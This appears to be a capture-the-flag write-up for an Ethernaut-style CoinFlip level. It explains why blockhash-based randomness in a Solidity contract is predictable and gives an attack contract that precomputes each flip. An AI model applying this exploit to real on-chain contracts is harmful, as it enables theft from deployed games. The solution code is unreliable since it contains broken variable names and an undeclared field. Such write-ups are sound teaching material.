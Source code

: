 # **Level 3 -- CoinFlip**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
`````` 
---
## ***Objectives***
* Guess the correct answer 10 times in a row
---
## ***Thought Process***
It seems like the developer wants to use random number to decide the coin's side. However in Ethereum, the variables may look random but actually deterministic and can be exploited if the inputs are known. We will use this point to hack the contract.

This contract only has one function called `flip()`
``` solidity
// This means we can not call this function in the same block more than once 
if (lastHash == blockValue) {
      revert();
    }
```
``` solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
lastHash = blockValue;
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```
We can see the coin's side is determined by the last block number & a constant named FACTOR. So we only need to create a contract which has same ways as this contract to caculate coin's side. 

---
## ***Solution***
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../instances/Ilevel03.sol";

contract FlipHacker {
  address filp = xxxxxx;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flipHacker() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    CoinFlip(flip).flip(side);
  }
}
```
After deploying `FlipHacker` contract, we just need to call `flipHacker()` function 10 times in different blocks to compelete this level.



